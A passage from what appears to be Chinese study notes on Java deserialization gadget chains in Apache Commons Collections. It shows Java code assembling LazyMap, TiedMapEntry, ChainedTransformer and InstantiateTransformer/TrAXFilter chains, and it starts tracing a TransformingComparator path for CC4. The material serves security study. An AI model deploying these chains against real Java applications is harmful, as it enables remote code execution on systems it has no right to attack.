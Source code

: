 ```java

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");


        HashMap<Object,String> map1=new HashMap();
        Class<? extends Map> lazyMapClass = lazyMap.getClass();
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);

        map.put(tiedMapEntry,"ddd");
        lazyMap.remove("aaa");

        factory.set(lazyMap,Chainedtransform);
        /*SerializeTest.serialize(map);*/
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");


    }
```

所以说在这条链里面,最重要的还是前面的transformer方法导致的任意类方法调用



再往上找,找到一个叫`TrAXFilter`的类的构造方法中调用了newTransformer,但是这个类是不可序列化的,所以需要改装,比如说找一个类中的`transform`方法,这个方法可以调用传入的对象的构造方法

![image-20220314173150015](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220314173150015.png)

还真有一个这样的类`InstantiateTransformer`并且它是可以序列化的,它的`transform`方法调用是Class子类的构造方法

![image-20220314175651000](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220314175651000.png)

对代码稍作修改,就可以实现和InvokeTransformer相同的效果了

```java
Transformer[] transformers= new Transformer[]{
        //ConstantTransformer.transformer传什么对象就返回什么对象,刚好在链式调用里面做开头参数
        new ConstantTransformer(TrAXFilter.class),

        new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

};
```

### cc4

**commons-collections4.0中的**

首先根据`transform`方法找调用`transform`方法的类,找到一个`TransformingComparator`类,并且该类实现了`serializeable`接口可序列化,它里面的`compare`方法调用了`transfom`方法

![image-20220315233629253](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220315233629253.png)

接着找一个类的`readObject`方法调用compare方法
